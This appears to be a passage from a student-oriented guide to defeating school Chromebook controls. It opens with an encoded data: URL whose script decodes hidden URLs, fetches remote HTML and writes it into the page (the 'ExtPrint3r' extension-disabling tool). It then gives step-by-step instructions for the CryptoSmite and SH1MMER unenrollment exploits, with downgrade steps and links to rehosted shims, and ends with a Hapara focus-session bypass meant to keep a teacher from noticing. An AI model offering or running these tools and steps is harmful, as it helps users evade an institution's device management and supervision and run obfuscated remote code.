4QnuY93FcdsU3ZMmSpXw8NrRwFNSDcCAcCsa07xIRDoRD7fBuonDzcdi99txDLr%2FskiDbM28cnb9gIV8CFmQ6YReFcCAcYU%2FoJqpDOBAOtcPbj3AcdOD%2BlR9qC%2FHx3X%2F9gbz8ymyEI8RwAq8J4UA4Ah%2FRjZeHcCAcaoe3H%2BE45OAD5Utf%2BGyQ7X3v%2B%2F9HXnr5FYQjyHTCLgrhQDjCnlDucPSbD0%2FifhGpWmBeUkE4VEVGsRkJ8LcK4cg4KuEt4w4HdzjCm8rqK0I4qmfIDmESQDgQjjAnM0NVCAfCkWFM1C1BONRFRsEZCSAcCEfGUQlvGcKBcIQ3ldVXhHBUz5AdwiSAcCAcYU5mhqoQDoQjw5ioW4JwqIuMgjMSQDgQjoyjEt4yhAPhCG8qq68I4aieITuESQDhQDjCnMwMVSEcCEeGMVG3BOFQFxkFZySAcCAcGUclvGUIB8IR3lRWXxHCUT1DdgiTAMKBcIQ5mRmqQjgQjgxjom4JwqEuMgrOSADhQDgyjkp4y6ZMmbJSRIaHV5n7inp6690fGuGJ5pdazcP87%2Ff%2Fves2a2tr5eCDDpAvfv5C10dnOu%2F7%2F%2FuHXr%2FavLe3979%2FOM78ex56CBjh4FEh0NrS0jIiRhZ%2F%2FgvKI1oC3OmpLlojFuYf8vX1dbL5ZpvJ%2BPHjZeTIEdLY2Ci1fxGQ6k7Id3VNbY1sucUWcuAB%2B%2BW70NHqhx95TJa%2B8470bnD%2FD%2FsNGzZI15o18t57K2TR4sWycuVK6elZL%2BY%2FRz4cDUAVxxjhaGlp4Z9JVTAM%2FVLCDT2hKutDOIoBNKLR0NAgEyeMl8MOPVj23HMPGTtmjLc7G8W6SPeq9evXy9Kl78izf3xO%2FvD4k7J4yVLp6elBPAIeCYQj4HBKKg3hKAlkqNsgHPmTqa%2Bvr4jGSZ88Qfbfbx8x%2FzcPvQTWrl0nTz71tNx5972yePESflgu0CgRjkCDKbEshKNEmCFuhXDkS2VwU5OYn38%2F84zTpLl5aL6LWR00gfdWrJAbb5omM5%2F5o6xevTroWlMsDuGIP3WEI%2FKMEY7sAQ8bNkxOOP44OfH4j1fet8EjPgLmZZVbb79T7p%2F%2BoLS1tcXXoOKOEA7F4WUsHeHICErrMoQjW3LDmpvlhBM%2BLp884RO8TyMbMrWrzPs7brntDrn%2F%2FhnS1t6uto%2FYCkc4Ykv0b%2FtBOCLPGOHoP%2BCmpiY5%2FNCD5dPnnc2djf5xRbHC3On41TXXyeNPPCVdXV1R9KS9CYRDe4L9149w9M9I9QqEY9PxmS%2FS2mH77eTSS77MezZUT3r%2B4s17Oq66%2BucyZ%2B68ykdnefglgHD45e%2FidITDBWWPZyAcm4Y%2FavPN5Zyzzwr2ey08jk4SRz%2Fy6B%2Fkd9NulWXLlifRb8hNIhwhp1NObQhHORyD3QXh2Hg05uOue%2By%2Bq1z2lYv46GuwE2y3MPOR2St%2FfLXMeuFFPi5rF3W%2FuyMc%2FSJSvwDhUB%2FhphtAODbOZ7ORI%2BW0006WyUceEfkU0N6mCNw3fYbcdvudlW8o5eGPAMLhj72rkxEOV6Q9nYNwbBz8lltuIZdferGMHj3KUzocGwKBRYsWy1U%2F%2FbksWPh6COUkWwPCEX%2F0CEfkGSMcfQfc0GBeTtldvnrpRXwyJfLnQH%2FtmY%2FJ%2FvDKq%2BT5P83iZZX%2BYFn8%2FyMcFuEGsjXCEUgQtspAOPomO3jwYDnqiMPk3HOm2ELPvooI%2FN%2FrbhDzw3OdnZ2Kqo6rVIQjrjz76gbhiDxjhKPvgIcPHyafPOH4yjeL8oDA7XfeLffcc5%2BsbG0FhicCCIcn8A6PRTgcwvZxFMLRN3XzE%2FOnnXqyHD35SB%2BxcGZgBHjjqP9AEA7%2FGdiuAOGwTdjz%2FghH3wGYT6icftopctSRh3tOiONDIDB9xkNy6213yLvvvhdCOUnWgHDEHzvCEXnGCAfCEfmIl9IewlEKxqo2QTiqwqfiYoRDRUzFi0Q4EI7i05POlQiH%2F6wRDv8Z2K4A4bBN2PP%2BCAfC4XkEVRyPcPiPCeHwn4HtChAO24Q9749wIByeR1DF8QiH%2F5gQDv8Z2K4A4bBN2PP%2BCAfC4XkEVRyPcPiPCeHwn4HtChAO24Q9749wIByeR1DF8QiH%2F5gQDv8Z2K4A4bBN2PP%2BCAfC4XkEVRyPcPiPCeHwn4HtChAO24Q9749wIByeR1DF8QiH%2F5gQDv8Z2K67PpkeAAAciUlEQVQA4bBN2PP%2BCAfC4XkEVRyPcPiPCeHwn4HtChAO24Q9749wIByeR1DF8QiH%2F5gQDv8Z2K4A4bBN2PP%2BCAfC4XkEVRyPcPiPCeHwn4HtChAO24Q9749wIByeR1DF8QiH%2F5gQDv8Z2K4A4bBN2PP%2BCAfC4XkEVRyPcPiPCeHwn4HtChAO24Q9749wIByeR1DF8QiH%2F5gQDv8Z2K4A4bBN2PP%2BCAfC4XkEVRyPcPiPCeHwn4HtChAO24Q9749wIByeR1DF8QiH%2F5gQDv8Z2K4A4bBN2PP%2BCAfC4XkEVRyPcPiPCeHwn4HtChAO24Q9749wIByeR1DF8QiH%2F5gQDv8Z2K4A4bBN2PP%2BCAfC4XkEVRyPcPiPCeHwn4HtChAO24Q9749wIByeR1DF8QiH%2F5gQDv8Z2K4A4bBN2PP%2BCAfC4XkEVRyPcPiPCeHwn4HtChAO24Q9749wIByeR1DF8QiH%2F5gQDv8Z2K4A4bBN2PP%2BCAfC4XkEVRyPcPiPCeHwn4HtChAO24Q9749wIByeR1DF8QiH%2F5gQDv8Z2K4A4bBN2PP%2BCAfC4XkEVRyPcPiPCeHwn4HtChAO24Q9749wIByeR1DF8QiH%2F5gQDv8Z2K4A4bBN2PP%2BCAfC4XkEVRyPcPiPCeHwn4HtChAO24Q9749wIByeR1DF8QiH%2F5gQDv8Z2K4A4bBN2PP%2BCEffAQwcOEAmTZwoY8aMyZRQTY1IXV2dNA4cKMOGDZMxY0bLpEkTZcL48dLQUJ9pDxaFSwDh8J8NwuE%2FA9sVIBy2CXveH%2BHoO4Camhqpra2tSESeh7nOXGP%2BNaChQZqHNcvOO%2B4g%2B%2By9l2y%2F%2FXbIRx6YAa196ulnZMaDD0tra2umqjb09sq6detk9eou6erqkvXr10tvb2%2Bma1nUNwGEI%2F7JQDgizxjhsBuwkRZzt6SpqUm2mDRJjjziMNln7z2lvp67HnbJl7v72rVrZXVXl2zYsCHbxr1SEYyenh7p6OyUJUuWymuvzZeXX5kjS5Yuke7unmz7sOq%2FCSAc8Q8DwhF5xgiHm4DNnY%2F6%2BjoZOnSo7LD9dnLSJ0%2BQrbf6iJvDOcUbASMd5l9GMLq7uyt3Oxa%2B%2FoY8%2FsST8uJLL0tHR6e32rQdjHBoSyx%2FvQhHfmaqrkA43MZlxKOhoaHyHo9jPzZZJh91RO6XbdxWzGllEzDi0dm5WuYvWCD3T58hr8yeK%2BYOCo9NE0A44p8QhCPyjBEOPwGbl1pGDB8uBx10gJxx2ikycOBAP4VwqjcCRjxWrmyVx%2F7whDz40COy%2FN13vdWi4WCEQ0NK1dWIcFTHL%2FirEQ5%2FEZm7HUOGDJED9t9XzjtnauW9HjzSImBebjHvDXn%2B%2BVlyx513yxtvvsWbSzcyAghH%2FM8NhCPyjBEOvwG%2FLx1HHHaITJ1yBi%2Bv%2BI3D2%2BnmJRXzno5bbr1D5i9YiHT0kQTC4W08nR2McDhD7ecghMMP9w%2BeaqRj%2BPDhcurJJ8qxxxztvyAq8ELAfIz2uednybRbb5c33njTSw0hH4pwhJxOObUhHOVwDHYXhCOMaIx0jB83Vv7hi5%2BTbbbZOoyiqMI5AXOn44EHH5Z77r1Pli%2FnPR0fDADhcD6Ozg9EOJwjd3sgwuGW96ZOM99IuudH95CLv%2FwlviAsnFicV9LW3i433jSt8tHZrq41zs8P9UCEI9RkyqsL4SiPZZA7IRzhxGLucjQ3N8tnzjtbDj7ogHAKoxKnBMwbSefOe1Wub7lR5s591enZIR%2BGcIScTjm1IRzlcAx2F4QjrGjMV6LvtOMO8vWvXVb5vg4eaRIwXxR2y223y%2FQHHpT29lVpQvirrhGO%2BMcA4Yg8Y4QjvIDNj7%2BZ93Lssfuu4RVHRc4IvPrqa3Ld9b%2BVOXPnOTsz5IMQjpDTKac2hKMcjsHugnCEF82AAQPkiMMPlQv%2B7tPhFUdFzgisXbtOfnN9izz86B%2F4JlIRQTicjZ63gxAOb%2BjdHIxwuOGc5xTzXo6JE8bLv37323wZWB5wEa596OFH5bY77qr8%2BFvqD4Qj%2FglAOCLPGOEIM%2BBhzc1yxeVfke223SbMAqnKCYEFC1%2BX637TIi%2B%2FMtvJeSEfgnCEnE45tSEc5XAMdheEI8xozM%2FZn3v2WZUfd%2BORLoHOzk75z19eI089PTP5bx9FOOJ%2FHiAckWeMcIQZsPkxt%2BOOOVrOnnpmmAVSlRMC5iOyv7rmOjEvrZhvIk35gXDEnz7CEXnGCEeYAZuPxB54wH6VT6vwSJvAjb%2BbJvffP0NWdXQkDQLhiD9%2BhCPyjBGOMAOur%2F%2Fzt45eftnFYRZIVc4I3Hb7XXLv7%2B%2BXla2tzs4M8SCEI8RUyq0J4SiXZ3C7IRzBRVIpyAiH%2BR6Or11%2BaZgFUpUzAnfceY%2Fcfe99snLlSmdnhngQwhFiKuXWhHCUyzO43RCO4CKpFGR%2BV2WfvfeSr1z8D2EWSFXOCJifrL%2F3vunS1tbm7MwQD0I4Qkyl3JoQjnJ5BrcbwhFcJJWCzJd%2FHX7owXLhBeeHWSBVOSPwmxt%2BK9MfeEi6urqcnRniQQhHiKmUWxPCUS7P4HZDOIKLpFLQoEGNcvJJJ8opJ50YZoFU5YSA%2BU2VX%2F7qGnn0scdl%2Ffr1Ts4M9RCEI9RkyqsL4SiPZZA7IRxBxiJDhgyWL3zuAtl3n73DLJCqnBBY%2Fu678qtfXyvPPT%2BL7%2BGo6ZGWlhb%2BmeRk8vwcQrh%2BuDs7FeFwhjrXQSNGjJDvfedbsvnmm%2BW6jsVxEZj1wovy2xtvlvkLFsbVWIFuuMNRAJqySxAOZYHlLRfhyEvM%2FnrzE%2FU777yjfONrXxXz73mkScB86Zf5HRXzkdjW1rTfMGomAOGI%2F3mAcESeMcIRXsCDBg2SM047RY7%2FxHHhFUdFzgisWLFSrrn2N%2FLMs88l%2F%2F4NhMPZ2Hk9COHwit%2F%2B4QiHfcZ5TjC%2FFDt61Cj5p29eIWNGj85zKWsjI%2FCHx5%2BUabfeLosWLY6ss2LtcIejGDdNVyEcmtIqUCvCUQCaxUvMb6gcPflIOWfqmbycYpFz6Fubl1DMx2GffGqmdHd3h16uk%2FoQDieYvR6CcHjFb%2F9whMM%2B46wnmLsb48aNlcsvvVgmTBif9TLWRUbAvHdj%2BgMPyp133SvvLFsWWXfF20E4irPTciXCoSWpgnUiHAXBWbjM%2FCT96Z86WY479mPc3bDAV8uWs%2BfMlZun3SavzJ7Dezc%2BEBrCoWWCi9eJcBRnp%2BJKhCOMmMyvw5qvMv%2F788%2BT5uahYRRFFc4JLFm6VMxXmc985lnp6lrj%2FPyQD0Q4Qk6nnNoQjnI4BrsLwuE%2FGvPR16233ko%2B%2B%2FefkS233MJ%2FQVTghcB7762QO%2B66Rx5%2F4klpb1%2FlpYaQD0U4Qk6nnNoQjnI4BrsLwuE3GiMbEydOkPM%2FfY7suMP2Ultb67cgTvdCYOnSdyrft%2FHEUzOlvb09%2BW8V7SsEhMPLaDo9FOFwitv9YQiHe%2Bbvn2hk4yMf2VKmnnm67LTTDpWfpOeRFgHzBtG5816V%2B6fPkFkvvCQdHR3IxkZGAOGI%2F7mBcESeMcLhJ2Dzno09dt9NTjrxeNlmm62QDT8xeD3V%2FNz8U08%2FI088%2BbS8%2FsYbvGejnzQQDq%2Fj6uRwhMMJZn%2BHIBxu2ZuPvo4cMUKOOvJwOejA%2FWXs2DF8IsVtBN5PM9%2Bx8eJLL8szz%2F5R5s9fKCtbW6Wnp8d7XaEXgHCEnlD19SEc1TMMegeEw008RjQGD26SvffaUw468ADZeqstZdiwYW4O5xSvBMzPyre1tctbby%2BSea%2B%2BKq%2B9tkDMp1HMV5evW7fOa22aDkc4NKVVrFaEoxg3NVchHHajamiol7Fjxsiuu%2Bwsu%2B%2B%2Bq0ycMKHyC7D8KJtd7mXvvnDh65X3Wqxe3ZVp617prXxDqFnf2tpa%2BdTJqo4OaW9rl47OTr5fIxPFDy9COApAU3YJwqEssLzlIhx9EzOfFhnU2Cj1DQ2ZkdbV1crAAQNlyNAhsvlmI2Xs2LEyaeIEGTN6lIwcOVKGDx%2BGaGSmGdbCRx97XO659z5ZsXJlpsJ6e0V6ezdId3dPRTzMXQ7zBlEexQkgHMXZabkS4dCSVME6EY6%2BwRk5OOboyZVPj2R5mJdMzP%2FU1tXKgIYGMb%2BJYr45tKlpkAwYMCDLFqwJmMD0GQ%2FJrbfdIe%2B%2B%2B17AVcZdGsIRd76mO4Qj8owRjr4DHj16lJx79lmy%2F377Rj4BtJeFAMKRhZLdNQiHXb4h7I5whJCCxRoQDoTD4nhFszXC4T9KhMN%2FBrYrQDhsE%2Fa8P8KBcHgeQRXHIxz%2BY0I4%2FGdguwKEwzZhz%2FsjHAiH5xFUcTzC4T8mhMN%2FBrYrQDhsE%2Fa8P8KBcHgeQRXHIxz%2BY0I4%2FGdguwKEwzZhz%2FsjHAiH5xFUcTzC4T8mhMN%2FBrYrQDhsE%2Fa8P8KBcHgeQRXHIxz%2BY0I4%2FGdguwKEwzZhz%2FsjHAiH5xFUcTzC4T8mhMN%2FBrYrQDhsE%2Fa8P8KBcHgeQRXHIxz%2BY0I4%2FGdguwKEwzZhz%2FsjHAiH5xFUcTzC4T8mhMN%2FBrYrQDhsE%2Fa8P8KBcHgeQRXHIxz%2BY0I4%2FGdguwKEwzZhz%2FsjHAjH%2BwS6utbI4iVLZNmyZdLa2iadnasrPzwmNTWV34cZPLhJRowYLqNHjZLx48dVfi8mlQfC4T9phMN%2FBrYrQDhsE%2Fa8P8KRtnCsWbOm8rPrc%2BbMkzffelvaV7VXRMP8593rumXDhg0VQLV1dRXpaBzUKIObmmTYsGGy5RaTZMcdt5fttt1WBg6M%2BwfqEA7Pf6hEBOHwn4HtChAO24Q9749wpCkc5m7Gc88%2FL889P0veXrS48iuoHR0dmX9C3fw6bvPQobL5qM1l0sQJsvdeH5WP7rF7tHc9EA7Pf6gQDv8BOKgA4XAA2ecRCEdawtHb2yuz58yVhx5%2BVF6bv0DeeWeZ9PT0VDWCDQ0NMnbsGNlh%2B%2B3kqCMPl623%2BojU1tZWtWdoFyMc%2FhPhDof%2FDGxXgHDYJux5f4QjHeEwL5M8%2BNAj8vgTT8nrb7z55%2FdnlPgw7%2BkwsnHYoQfLIQcfFNXLLAhHiYNScCuEoyA4RZchHIrCKlIqwhG%2FcJi7GqtWdcitt98pT898pvLyia2HeallzJjRcvBBB8gJnzhOmpqaxPxn2h8Ih%2F8EEQ7%2FGdiuQP9fCtuElO%2BPcMQtHEY22letkhtvmiZPPjVTOjs7nUyseVPpoYccKKeefFLl0y3apQPhcDI2mzwE4fCfge0KEA7bhD3vj3DELRyrV6%2BW3940TR559DExbxR1%2BRgyZLAc87HJctKJJ8igQY0ujy79LISjdKS5N0Q4ciNTdwHCoS6yfAUjHPEKh3kz6F13%2F15uv%2BMu6Vy9Ot9glLTa3Ok44%2FRT5YjDDhHz5lKtD4TDf3IIh%2F8MbFeAcNgm7Hl%2FhCNO4TDfn%2FHiSy%2FLz%2F%2Fzv%2BS991Z4nbIJ48fJ5z93gWy7zdZSV1fntZaihyMcRcmVdx3CUR7LUHdCOEJNpqS6EI74hOP99238%2BCc%2Fk5defqWkSSm%2BjXn%2Fxv777SMXXnC%2BDB0ypPhGHq9EODzC%2F8vRCIf%2FDGxXgHDYJux5f4QjPuFYv369PDDjIbn2NzdId3d137FR1ng2NjbK5y78O9lv332koaG%2BrG2d7YNwOEO90YMQDv8Z2K4A4bBN2PP%2BCEdcwmHubrS1tcv3vv8DeePNtzxP14eP32WXneSSi75U%2BYZSbZ9aQTj8jxLC4T8D2xUgHLYJe94f4YhLOMzdjSeefFp%2B9vNfiPn3IT3M761cesmXZffddlX3Xg6Ew%2F8kIRz%2BM7BdAcJhm7Dn%2FRGOuIRj7dp1cuWPr5bnnv%2BT58nq%2B%2FjJRx0h550zVd3HZBEO%2F%2BOEcPjPwHYFCIdtwp73RzjiEQ7zcsqy5cvl69%2F8F%2BnocPMFX3nHd9SozeW73%2F5nGT58uKqXVRCOvEmXvx7hKJ9paDsiHKElUnI9CEc8wmFeQnn2j8%2FLv%2F3oqsy%2F%2BlryOPW7nflY7D9%2F82uVH3rT9BFZhKPfaK0vQDisI%2FZ%2BAMLhPQK7BSAcffM1%2F0383LOnyAH772s3gBJ3N59IuXnarZXfTAn5cf5nzpXJRx4uAwYMCLnMD9U2%2FYEHK1xt%2Fg6NGhieCkU4PIF3eCzC4RC2j6MQjr6pb775ZjLlzNPl0EMO8hFLoTPN%2Bzeu%2FtnP5emZzxa63tVFxx37sQpbTV93fve998mdd90jK1asdIWJc%2F6KAMIR%2F0ggHJFnjHD0HfCI4cPlpE8eL5%2F4%2BLFqJsD8%2FPx3vvu%2F5LX5C4Kueb9995YvfP5CGdzUFHSdHyzupptvkfunz5D29lVqao6tUIQjtkT%2Fth%2BEI%2FKMEY6%2BAzb%2FMDzi8EPl0%2BedrWYCzI%2Bz%2FeM3vyVLliwNumbzfRyXXXKRmB930%2FAwb8b99%2F%2F4ZeXXdteuXauh5ChrRDiijPVDTSEckWeMcPQdcH19vey2685y2VcuUvNeAyMcX73iG7L83XeDntoddthOrvjqV9R8zbm5q3HlT66W2bPnivmNGh5%2BCCAcfri7PBXhcEnbw1kIR9%2FQzTdhTpwwXr74hc%2FKNltv5SGZ%2FEca4bjsiq8H%2F8ZG8wmVKy7XIxyzXnhRrrn2elm0aHH%2BULiiNAIIR2kog90I4Qg2mnIKQzg2zrG5eah8%2FNhj5FOnnlQObMu7IBzlAzYfNb6%2B5UZ56OHHpLMzzO82Kb%2FrMHdEOMLMpcyqEI4yaQa4F8Kx8VDM90Rsv%2F228sXPXShjxowOML0Pl4RwlB%2FRwoWvyy9%2Ffa3Mn7%2BAl1PKx5trR4QjFy6VixEOlbFlLxrh2DSr9%2B9ynHzSCcF%2FURXCkX3us6w0bxC96Xe3yMOPPCarOjqyXMIaiwQQDotwA9ka4QgkCFtlIBybJmvuckycOEGmnnWG7PnR3W3FUMq%2BCEcpGCubmE%2BmmE%2Bl%2FG7arbJ48ZJgv7m1vI7D3wnhCD%2BjaitEOKolGPj1CEf%2FAZlvxNx1l53ljNNPla23%2Bkj%2FF3hagXCUB958IsXIxtx5r0p3d3d5G7NTYQIIR2F0ai5EONREVaxQhCMbN%2FOtmHvtuaeceMLHg5UOhCNblptaZe5szJk7T%2B66%2B%2Ffy4ksvi%2FkyNR5hEEA4wsjBZhUIh026AeyNcGQPwUjH7rvtJpOPOlx223WX4N7TgXBkz7KvleZOxp9mvSgzHnxYXpk9B9moDmfpVyMcpSMNbkOEI7hIyi0I4cjH07y8Yr6XY%2F%2F99pG999ozqE%2BvIBz5snx%2FtbmrYd6n8exzz8vMmc%2FK62%2B8ycsoxVBavQrhsIo3iM0RjiBisFcEwpGfbW1trYwYMVx22nEH2WmnHWX7bbeRsWPHysCBfn%2F9FOHIl6V5uWTxkqUyb96rMnvOXJkzZ560tbfz8dd8GJ2tRjicofZ2EMLhDb2bgxGO4pzNJ1hGjhwhW0yaJOPGjZHRo0ZVRKSpqUnMV6PX1tQW37zAlWvXrZWrfvof0tbWVuBqd5dMmjRRzpl6pjQNcvvjbRt6N0hPd490dHZKa2urvLNsuSxZskTefOttaW1tE%2FMlXzzCJYBwhJtNWZUhHGWRDHQfhKP6YMzXoNfX10nz0GYZOnSINDY2Sl19ndSI26eP%2BZ2PV1%2BbH%2FzLAUbIttxikvP3wPRKr%2FT09MiarjXSvqpDOjpWSU%2FPej7yWv1TwMkOCIcTzF4PcfsX02uraR6OcKSZO11DQBsBhENbYvnrRTjyM1N1BcKhKi6KhUCyBBCO%2BKNHOCLPGOGIPGDag0AkBBCOSILcRBsIR%2BQZIxyRB0x7EIiEAMIRSZAIR%2FxBbqxDhCPd7OkcApoIIBya0ipWK3c4inFTcxXCoSYqCoVA0gQQjvjjRzgizxjhiDxg2oNAJAQQjkiC5CWV%2BIPkJZV0M6ZzCMRAAOGIIcVN98Adjsgz5g5H5AHTHgQiIYBwRBIkdzjiD5I7HOlmTOcQiIEAwhFDitzhiD%2FFTXTIHY6k46d5CKghgHCoiapwobykUhidjgsRDh05USUEUieAcMQ%2FAQhH5BkjHJEHTHsQiIQAwhFJkLyHI%2F4geQ9HuhnTOQRiIIBwxJAi7%2BGIP0Xew5F0xjQPgRgIIBwxpIhwxJ8iwpF0xjQPgRgIIBwxpIhwxJ8iwpF0xjQPgRgIIBwxpIhwxJ8iwpF0xjQPgRgIIBwxpIhwxJ8iwpF0xjQPgRgIIBwxpIhwxJ8iwpF0xjQPgRgIIBwxpIhwxJ8iwpF0xjQPgRgIIBwxpIhwxJ8iwpF0xjQPgRgIIBwxpIhwxJ%2FipoVjpYgMTxoCzUMAAhoItLa0tIzQUCg1FiPAV5sX48ZVEIAABCAAAQjkIIBw5IDFUghAAAIQgAAEihFAOIpx4yoIQAACEIAABHIQQDhywGIpBCAAAQhAAALFCCAcxbhxFQQgAAEIQAACOQggHDlgsRQCEIAABCAAgWIEEI5i3LgKAhCAAAQgAIEcBBCOHLBYCgEIQAACEIBAMQIIRzFuXAUBCEAAAhCAQA4CCEcOWCyFAAQgAAEIQKAYAYSjGDeuggAEIAABCEAgBwGEIwcslkIAAhCAAAQgUIwAwlGMG1dBAAIQgAAEIJCDAMKRAxZLIQABCEAAAhAoRgDhKMaNqyAAAQhAAAIQyEEA4cgBi6UQgAAEIAABCBQjgHAU48ZVEIAABCAAAQjkIIBw5IDFUghAAAIQgAAEihFAOIpx4yoIQAACEIAABHIQQDhywGIpBCAAAQhAAALFCCAcxbhxFQQgAAEIQAACOQggHDlgsRQCEIAABCAAgWIEEI5i3LgKAhCAAAQgAIEcBBCOHLBYCgEIQAACEIBAMQIIRzFuXAUBCEAAAhCAQA4CCEcOWCyFAAQgAAEIQKAYAYSjGDeuggAEIAABCEAgBwGEIwcslkIAAhCAAAQgUIwAwlGMG1dBAAIQgAAEIJCDAMKRAxZLIQABCEAAAhAoRgDhKMaNqyAAAQhAAAIQyEEA4cgBi6UQgAAEIAABCBQjgHAU48ZVEIAABCAAAQjkIIBw5IDFUghAAAIQgAAEihFAOIpx4yoIQAACEIAABHIQQDhywGIpBCAAAQhAAALFCCAcxbhxFQQgAAEIQAACOQggHDlgsRQCEIAABCAAgWIEEI5i3LgKAhCAAAQgAIEcBBCOHLBYCgEIQAACEIBAMQIIRzFuXAUBCEAAAhCAQA4CCEcOWCyFAAQgAAEIQKAYAYSjGDeuggAEIAABCEAgBwGEIwcslkIAAhCAAAQgUIwAwlGMG1dBAAIQgAAEIJCDAMKRAxZLIQABCEAAAhAoRgDhKMaNqyAAAQhAAAIQyEEA4cgBi6UQgAAEIAABCBQjgHAU48ZVEIAABCAAAQjkIIBw5IDFUghAAAIQgAAEihFAOIpx4yoIQAACEIAABHIQQDhywGIpBCAAAQhAAALFCCAcxbhxFQQgAAEIQAACOQggHDlgsRQCEIAABCAAgWIEEI5i3LgKAhCAAAQgAIEcBBCOHLBYCgEIQAACEIBAMQIIRzFuXAUBCEAAAhCAQA4CCEcOWCyFAAQgAAEIQKAYAYSjGDeuggAEIAABCEAgBwGEIwcslkIAAhCAAAQgUIwAwlGMG1dBAAIQgAAEIJCDAMKRAxZLIQABCEAAAhAoRgDhKMaNqyAAAQhAAAIQyEEA4cgBi6UQgAAEIAABCBQjgHAU48ZVEIAABCAAAQjkIIBw5IDFUghAAAIQgAAEihFAOIpx4yoIQAACEIAABHIQQDhywGIpBCAAAQhAAALFCCAcxbhxFQQgAAEIQAACOQj8P4Ba2YXWKFRUAAAAAElFTkSuQmCC%22%3E%0A%20%20%20%20%3Cstyle%3E%0A%20%20%20%20%20%20%20%20%40import%20url('%22https%3A%2F%2Ffonts.googleapis.com%2Fcss2%3Ffamily%3DRoboto%3Aital%2Cwght%3A%40400%3B%26display%3Dswap')%3B%0A%09%09*%20%7B%0A%09%20%20%20%20%20%20%20%20font-family%3A%20%22Roboto%22%2C%20arial%3B%0A%09%09%7D%0A%20%20%20%20%09body%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20background-color%3A%20%231e1f22%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%09h3%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20margin-left%3A%2035px%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20color%3A%20white%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20padding-top%3A%2020px%3B%0A%20%20%20%20%09%7D%0A%20%20%20%3C%2Fstyle%3E%0A%20%20%3Cscript%3E%0A%20%20%20%20document.addEventListener(%22DOMContentLoaded%22%2C%20()%20%3D%3E%20%7B%0A%20%20%20%20%20%20const%20main%20%3D%20atob(%22aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL0Jsb2JieS1Cb2kvRXh0UHJpbnQzci9yZWZzL2hlYWRzL21haW4vaW5kZXguaHRtbA%3D%3D%22)%3B%0A%20%20%20%20%20%20const%20fallback%20%3D%20atob(%22aHR0cHM6Ly9jZG4uanNkZWxpdnIubmV0L2doL0Jsb2JieS1Cb2kvRXh0UHJpbnQzci9pbmRleC5odG1s%22)%3B%0A%20%20%20%20%20%20fetch(main)%0A%20%20%20%20%20%20%20%20.then(response%20%3D%3E%20response.ok%20%3F%20response.text()%20%3A%20Promise.reject())%0A%20%20%20%20%20%20%20%20.catch(()%20%3D%3E%20fetch(fallback).then(response%20%3D%3E%20response.text()))%0A%20%20%20%20%20%20%20%20.then(html%20%3D%3E%20%7B%0A%20%20%20%20%20%20%20%20%20%20document.open()%3B%0A%20%20%20%20%20%20%20%20%20%20document.write(html)%3B%0A%20%20%20%20%20%20%20%20%20%20document.close()%3B%0A%20%20%20%20%20%20%20%20%7D)%3B%0A%20%20%20%20%7D)%3B%0A%20%20%3C%2Fscript%3E%0A%3C%2Fhead%3E%0A%3Cbody%3E%0A%3Ch3%3ELoading...%3C%2Fh3%3E%0A%3C%2Fbody%3E%0A%3C%2Fhtml%3E
```
2. Look for your filter extension on the list. If it isn't there, toggle on "show all extensions" in the ExtPrint3r settings.
3. Click the "disable" button next to the extension.
4. Follow the directions on the popup window. You'll need to do it very quickly otherwise it will not work.
5. Enjoy! If the extension switches back on, increase the iframe slider in settings and try again.

[**🔼 Back to top**](#ext-remover)

## CryptoSmite *Unenrollment*

**CryptoSmite** is an exploit capable of completely unenrolling enterprise-managed Chromebooks. It was found by FWSmasher and released on **March 9th, 2024**.

**This exploit has been patched since Chrome OS 120.**

### Finding Kernver
If you're on v120 or higher, you need to downgrade to use CryptoSmite. To do this, you first need to check your `kernver=` in Recovery Mode.

1. Boot into Recovery Mode
   - Hold ESC + Refresh + Power for 2 or 3 seconds.
   - You should be on an "Insert Recovery Media" or "Let's step you through the recovery process" screen.
2. Press TAB and look at the last digit of the `kernver=` line

If:
- `kernver=` ends with a 2: <br />
Congratulations, you can downgrade to v119 or lower! Follow the instructions at [Downgrading *Change versions*](#downgrading-change-versions) on how to downgrade.

- `kernver=` ends with a 3 or higher: <br />
Sorry, you can't downgrade to v119 or lower. Wait for a new unenrollment exploit or do a [**dangerous** hardware modification.](https://blog.darkn.bio/blog/3-the-tsunami)

### Using CryptoSmite
1. Download a SH1MMER prebuilt image here: [dl.darkn.bio](<https://dl.darkn.bio/SH1mmer/Prebuilt/>)
2. Disable OS verification *(blocked or not, doesn't matter)*, and boot into the shim.
3. Navigate to Payloads and navigate to CryptoSmite using the arrow keys, then press `Enter`.
4. Type in `Y`, then press enter, and it'll automatically reboot upon completion.
5. Proceed through the setup partially till you get to the Add Account Screen.
   - If you see an update prompt, reboot it and then press `CTRL + ALT + E` on the Wi-Fi screen.
     - This *should* allow skipping the update or make it not appear at all.
6. Powerwash the Chromebook at the "Add Account" screen. Afterwards, it'll be fully unenrolled.

### Further Reading
- [Repository](https://github.com/FWSmasher/CryptoSmite)  
- [Writeup](https://blog.coolelectronics.me/breaking-cros-2/)
- [Official Blogspot](https://exploitingchromium.blogspot.com/)

[**🔼 Back to top**](#ext-remover)

## SH1MMER *Unenrollment*

**SH1MMER** is an exploit capable of completely unenrolling enterprise-managed Chromebooks. The Mercury Workshop team found it and released it on Friday, January 13th, 2023.

Due to the detail this exploit requires, please check out the official website: [sh1mmer.me](https://sh1mmer.me)

**This exploit has been patched since Chrome OS 111.**

### Note

Mercury Workshop received a notice from Google™️ that they had to take down their builder and shims. Currently, multiple community members are rehosting it.
- [Wax4Web](https://darkn.bio/sh1mmer/builder)
- [RMA shims](https://dl.darkn.bio/SH1mmer)
- [Prebuilt shims](https://dl.darkn.bio/SH1mmer/Prebuilt)

### Further Reading
- [Repository](https://github.com/MercuryWorkshop/sh1mmer)  
- [Official Website](https://sh1mmer.me/)
- [Writeup](https://blog.coolelectronics.me/breaking-cros-2/)

[**🔼 Back to top**](#ext-remover)

## Hapara Focus Session Bypass

### What is it?

An exploit that allows for access to sites outside of the Hapara Focus Session

### How to use it?

**Your teacher may be able to still see your screen, but they won't think you are doing anything wrong because of the focus session.**

**YOU MUST NEED data: LINKS ALLOWED, IF YOU DON'T HAVE THOSE ALLOWED, THIS WILL NOT WORK**.

